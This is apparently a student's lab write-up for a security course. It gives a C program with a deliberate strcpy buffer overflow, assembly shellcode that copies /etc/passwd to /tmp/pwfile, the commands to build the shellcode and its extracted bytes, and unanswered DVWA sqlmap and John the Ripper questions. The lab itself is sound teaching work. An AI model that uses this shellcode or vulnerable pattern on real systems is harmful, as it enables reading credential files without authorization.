 # Lab #1,22110031, Bien Xuan Huy, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

I saved the vulnerable C program the file file task1.c and shellcode into task1.asm.
In order to attack, I will first convert the task1.asm into machine code using the following commands. 

```
nasm -g -f elf task1.asm
ld -m elf_i386 -o task1 task1.o
for i in $(objdump -d task1 |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```

And here is the shellcode I have in machine format.

```
\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80
```



**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:



